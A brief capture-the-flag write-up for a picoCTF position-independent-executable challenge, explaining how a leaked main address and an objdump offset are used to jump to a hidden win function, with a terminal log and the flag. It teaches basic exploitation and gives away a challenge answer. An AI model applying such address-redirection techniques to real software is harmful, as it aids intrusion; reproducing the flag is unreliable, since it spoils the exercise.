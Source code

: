 #Description
Can you try to get the flag? Beware we have PIE!

#Solve
Checked the source code, found that program was asking to jump to a memory location and prints the memory location of main function, found a function win that gives the flag, `objdump`'d the binary to find the memory location of win relative to main function , found a difference of 96, then subtracted 96 from location of main function given in terminal to run the win function and get the flag

`flag: picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_801240da}`

```bash
 @kali  nc rescued-float.picoctf.net 50648
Address of main: 0x58f4bbbb833d
Enter the address to jump to, ex => 0x12345: 58F4BBBB82A7
Your input: 58f4bbbb82a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_801240da}
```
